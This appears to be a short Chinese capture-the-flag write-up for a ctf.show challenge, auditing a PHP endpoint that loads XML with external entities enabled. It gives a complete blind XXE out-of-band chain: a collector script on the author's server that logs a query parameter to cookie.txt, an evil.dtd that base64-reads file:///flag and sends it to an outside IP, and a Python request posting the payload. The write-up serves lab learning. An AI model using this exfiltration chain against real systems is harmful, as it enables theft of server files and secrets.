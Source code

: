 代码审计

```php
<?php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);    
```

我们可以用自己的VPS实现带外输出

首先建一个index.php

```php
<?php 
	$cookie = $_GET['q'];
	$myFile = "cookie.txt";
	file_put_contents($myFile, $cookie, FILE_APPEND);
?>
```

evil.dtd

```dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://42.192.137.212/index.php?q=%file;'>">
```

python发送请求即可，之后再网站根目录cookie.txt查看获取的flag即可

```
import requests

url = 'http://8bb031b1-bab9-43fe-b73b-d9741ed6617b.chall.ctf.show/'
payload = """<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://42.192.137.212/evil.dtd">
%remote;%int;%send;
]>
"""
requests.post(url, data=payload)

```

